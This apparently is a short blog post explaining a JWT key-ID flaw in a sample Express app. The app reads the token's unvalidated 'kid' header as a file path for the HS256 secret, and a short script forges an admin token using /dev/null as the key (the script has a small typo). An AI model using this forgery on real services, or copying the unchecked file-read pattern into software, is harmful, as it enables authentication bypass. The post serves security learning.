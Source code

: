 ```yaml
---
title: '[TIL] JWT using KeyID'
author: hoppi
date: 2023-01-28 17:56:00 + 0000
categories: [Web]
tags: [web, jwt, kid]
---
```


I saw this vulnerable code in tweet.  
we need to access `/protected` endpoint using `req.name` as admin. 
```javascript
const fs = require('fs');
var jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const app = require('express')();
app.use(cookieParser());

app.use((req, res, next) => {
    const token = req.cookies.session;
    if (!token) return res.sendStatus(403);
    jwt.verify(token,
        (header, cb) => {
            cb(null, fs.readFileSync(header.kid));
        }, { algorithm: 'HS256' }, (err, data) => {
            if (err) return res. sendStatus (403);
            req.name = data.name;
            return next();
        }
        );
});

app.get('/protected', (req, res) => {
    if (req.name !=='admin') return res.sendStatus(401);
    res.send('You are the admin!');
});

app.listen(80);
```
{: file='app.js'}
<br/>

In the code above, Verifying the token with HS256 algorithm which is uses secret key to signing. and there is `header.kid (KeyID)`, optional header parameter, which is used to sign it.  
And then it goes to `readFileSync()` argument so they use this as `secret key`.  

The problem is that there is no verification of `header.kid`, <u>so if any file name existing in the target system is entered, we can sign the token with arbitrary key.</u> (ex `/etc/passwd`, `node_modules/jsonwebtoken/LICENSE`, `/dev/null` etc...)  

And if the `data.name` is manipulated with `admin`, `/protected` endpoints become accessible!  
<br/>

You can create a arbitrary token as shown below.  
```javascript
const fs = require('fs');
var jwt = require('jsonwebtoken');

const key = fs.readFileSynce('/dev/null');
const session = jwt.sign({name: 'admin'}, key, {
    keyid: '/dev/null',
    algorithm: 'HS256',
});
```
{: file='token.js'}
<br/>

# Reference
***
- [https://twitter.com/intigriti/status/1618589709617463297?s=61&t=phXMx6I4fkbUdA-CHZ1mug](https://twitter.com/intigriti/status/1618589709617463297?s=61&t=phXMx6I4fkbUdA-CHZ1mug)